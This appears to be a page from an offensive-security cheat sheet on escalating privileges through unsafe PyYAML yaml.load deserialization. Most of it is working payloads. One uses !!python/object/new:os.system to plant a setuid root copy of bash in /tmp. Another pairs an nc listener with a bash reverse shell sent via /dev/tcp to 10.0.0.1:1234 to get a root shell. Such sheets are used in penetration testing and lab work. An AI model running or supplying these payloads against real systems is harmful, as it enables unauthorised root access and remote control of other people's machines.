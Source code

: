 ```yaml
---
title: Python Yaml Privilege Escalation
description: Python Yaml package is vulnerable to execute arbitrary command.
tags:
    - Privilege Escalation
refs:
    - https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation
date: 2023-02-28
draft: false
---
```


## Investigation

```python
import yaml

filename = "example.yml"
yaml.load()
```

<br />

## Payloads

### Bash Privileged Mode

```python
import yaml
yaml.load('!!python/object/new:os.system ["cp `which bash` /tmp/bash;chown root /tmp/bash;chmod u+sx /tmp/bash"]')
```

Now execute the **`bash`** in privilege mode.

```bash
/tmp/bash -p
```

### Reverse Shell

Start a listener in local machine.

```bash
nc -lvnp 1234
```

Then execute Python script that contains the following `YAML` code as root.

```python
import yaml
yaml.load('!!python/object/new:os.system ['bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1"'])
```

We should get a root shell.